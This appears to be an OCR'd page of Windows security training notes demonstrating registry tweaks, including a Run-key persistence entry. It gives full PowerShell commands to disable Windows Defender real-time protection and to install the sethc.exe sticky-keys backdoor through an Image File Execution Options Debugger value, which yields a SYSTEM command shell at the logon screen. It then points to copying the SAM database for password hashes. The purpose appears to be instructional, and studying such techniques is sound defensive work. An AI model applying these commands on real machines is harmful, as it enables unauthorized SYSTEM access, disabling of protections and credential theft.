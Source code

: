 ```
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Office\14.0\Security\Trusted Documents\TrustRecords" -Name "%USERPROFILE%Downloads/test-document.doc"
Set-ItemProperty - Change the value of a sub key
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name Test -Value Bacon.exe


3.4 Sethc.exe Demonstration
Demo: Demonstrate the application of a registry "tweak" via the GUI and CMD-line using sethc.exe.

What is sethc.exe?

Windows contains a feature called stick keys, which is an accessibility feature to help Windows users who have physical disabilities.

It essentially serializes keystrokes instead of pressing multiple keys at a time, so it allows the user to press and release a modifier key, such as Shift, Ctrl, Alt, or the Windows key, and have it remain active until any other key is pressed.

You activate stick keys by pressing the Shift key 5 times. When you activate stick keys, you are launching a file, C:\Windows\System32\sethc.exe, which executes as SYSTEM.

While this exploit is protected by current AV, you still might see it in customer networks who don’t follow DISA STIGs.



Create a new Registry key using PowerShell
This will create a backdoor onto a box which will trigger Windows Defender. So first we need to disable it.
Disable Windows Defender Real Time Protection
Set-MpPreference -DisableRealtimeMonitoring $TRUE
Sometimes, the previous command may not work as expected. In such cases, you can follow these steps:
Click the Windows button in the lower-left corner of your desktop.
Navigate to "Virus & threat protection."
Under "Virus & threat protection settings," click "Manage settings."
Finally, toggle off "Real-Time protection." These steps will help you turn off real-time protection using the Windows Security interface.
Create a new Registry key using New-Item in PowerShell
new-item "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
Create a new Registry key property using New-ItemProperty in PowerShell
New-ItemProperty -path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Name Debugger -Type String -Value C:\Windows\System32\cmd.exe
Calling our new value in order to privilege escalate
Rapidly press the SHIFT key 5 times

A command shell opens

Type whoami

You should be army\john.huntsman or whoever your user account is

Now log off the system and press the SHIFT key 5 times

A command shell opens

Type whoami

Now you are NT AUTHORITY\SYSTEM

As SYSTEM user, we could open the Registry and copy the SAM database to access password hashes
Create a network share to Sysinternals
```